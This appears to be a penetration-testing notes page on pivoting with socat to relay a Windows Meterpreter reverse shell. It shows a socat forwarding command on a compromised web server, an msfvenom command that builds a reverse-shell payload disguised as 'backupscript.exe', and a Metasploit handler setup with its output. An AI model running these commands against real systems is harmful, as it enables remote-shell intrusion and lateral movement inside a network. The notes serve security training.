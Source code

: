 ![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


## Socat Redirection with a Reverse Shell

### Starting Socat Listener
Socat will listen on localhost (pivot server) on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). 
```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

### Creating the Windows Payload
```shell
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
### Configuring & Starting the multi/handler
```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```
